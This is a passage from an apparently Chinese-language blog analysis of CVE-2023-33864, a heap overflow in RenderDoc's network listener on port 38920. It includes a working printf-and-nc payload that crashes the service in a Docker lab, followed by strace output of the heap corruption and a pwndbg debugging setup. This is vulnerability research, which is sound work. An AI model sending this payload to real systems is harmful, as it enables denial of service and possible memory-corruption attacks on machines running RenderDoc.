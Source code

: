 ```bash
UID          PID    PPID     LWP  C NLWP STIME TTY          TIME CMD
....
test        2989    2914    2989  0    2 09:09 pts/2    00:00:00 /usr/bin/sleep 6000
test        2989    2914    2991  0    2 09:09 pts/2    00:00:00 /usr/bin/sleep 6000
test        2992    2971    2992  0    1 09:09 pts/6    00:00:00 ps -eLf
```

载入librenderdoc.so动态链接库时会开启tcp服务端，监听38920端口。

## 宿主机模拟远程攻击

```bash
$ (
  printf '\2\0\0\0\0\0\0\0\1\0\0\0\x80\x00\xa0\x00%010485760x' 1;   # 第一部分：构造头部+填充数据
  sleep 3;                                                          # 延迟3秒
  printf '%0128x%04096x' 1 1                                        # 第二部分：附加填充数据
) | nc -nv 172.17.0.2 38920                                         # 发送到目标端口
```

可以看到docker端的服务已经被打崩：

![批注 2025-05-13 155029.png](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/%E6%89%B9%E6%B3%A8_2025-05-13_155029.png)

检查strace的输出：

```bash
2847  recvfrom(5, "00000000000000000000000000000000"..., 128, 0, NULL, NULL) = 128
2847  fcntl(5, F_GETFL)                 = 0x2 (flags O_RDWR)
2847  fcntl(5, F_SETFL, O_RDWR|O_NONBLOCK) = 0
2847  setsockopt(5, SOL_SOCKET, SO_RCVTIMEO_OLD, "\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0", 16) = 0
2847  recvfrom(5, "00000000000000000000000000000000"..., 4284546928, 0, NULL, NULL) = 4096
2847  writev(2, [{iov_base="malloc(): corrupted top size", iov_len=28}, {iov_base="\n", iov_len=1}], 2) = 29
2847  mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f59a2e59000
2847  rt_sigprocmask(SIG_UNBLOCK, [ABRT], NULL, 8) = 0
2847  rt_sigprocmask(SIG_BLOCK, ~[RTMIN RT_1], [], 8) = 0
2847  getpid()                          = 2846
2847  gettid()                          = 2847
2847  tgkill(2846, 2847, SIGABRT)       = 0
2847  rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
2847  --- SIGABRT {si_signo=SIGABRT, si_code=SI_TKILL, si_pid=2846, si_uid=1000} ---
2846  <... clock_nanosleep resumed> <unfinished ...>) = ?
2847  +++ killed by SIGABRT (core dumped) +++
2846  +++ killed by SIGABRT (core dumped) +++
```

漏洞现场：

```bash
$ pwndbg /usr/bin/sleep          # 先挂在sleep程序上面进行调试
pwndbg> set environment LD_PRELOAD /test/renderdoc/build/lib/librenderdoc.so # 手动加载库文件                                                                                                                                                                                                        
pwndbg> r 600   
Starting program: /usr/bin/sleep 600                                                                                                                                                                                                                                                
warning: Error disabling address space randomization: Operation not permitted                                                                                                                                                                                                       
warning: could not convert 'rb_root' from the host encoding (UTF-8) to UTF-32.                                                                                                                                                                                                      
```
